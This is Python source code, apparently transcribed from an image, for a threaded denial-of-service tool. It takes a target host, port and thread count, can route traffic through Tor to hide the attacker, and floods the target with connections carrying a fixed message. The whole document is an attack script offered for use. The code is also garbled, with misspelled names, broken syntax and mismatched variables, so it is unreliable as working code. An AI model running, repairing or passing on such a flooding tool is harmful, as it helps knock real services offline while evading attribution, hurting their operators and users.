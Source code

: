 import socket
import socks
import threading
import time
from datetime import datetime

class Dos:
	def __init__(self, host, port, nthreads, UserTor):
		self.host = host
		self.port = port
		self.nThreads = nThreads
		self.UserTor = UserTor

		if self.UserTor:
			socks.set_default_proxy(soscks.SOCKS5, '127.0.0.1', 9150)


		self.threads = []
		self.message = '-----= +[ DDos Attack by Maid ]+ =-----'



	def SendAttack(self):

		if.self.UserTor:
		    s = socks.socksocket()
		else:
			s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)

		try:
			s.connect((self.host, self.port))

			s.send(self.message) #TCP ATTACK
			s.send(self.message, (self.host, self.port)) #UDPATTACK
		except:
			pass

		s.close()

	def Attack(self):
		for i in range(self.nThreads):
			t = threading Thread(target = self.SendAttack)
			self.threads append(t)

		for i in self.threads:
			i.start()

		for i in self.threads:
			i.join()


Tor = input('[?] Yuki.N> You will use Tor (y/n):').lower()
host = input('Yuki.N> [*] Enter Host : ')
port = int(input('Yuki.N> [*] Enter port : '))
threads = int(input('Yuki.N> [*] Enter Number Attack : '))
UserTor = False

if Tor == 'y':
	UserTor = True

hostip = socket.gethostbyname(host)

Dos = Dos(host, port, threads, UserTor)

print('\nHost %s ... IP %s ' % (host, hostip))
print('\n\n[*] Yuki.N> Starting The Attack %s... ' % (time.strftime("%H:%M:%S")))

start_time = datetime.now()

Dos.Attack()

end_time = datetime.now()
total_time = end_time - start_time

print('\n[*] Yuki.N> Attack was Done At %s... ' % (time.strftime("%H:%M:%S")))
print('[*] Yuki.N> Total Attack Time %s.... ' % (total_time))




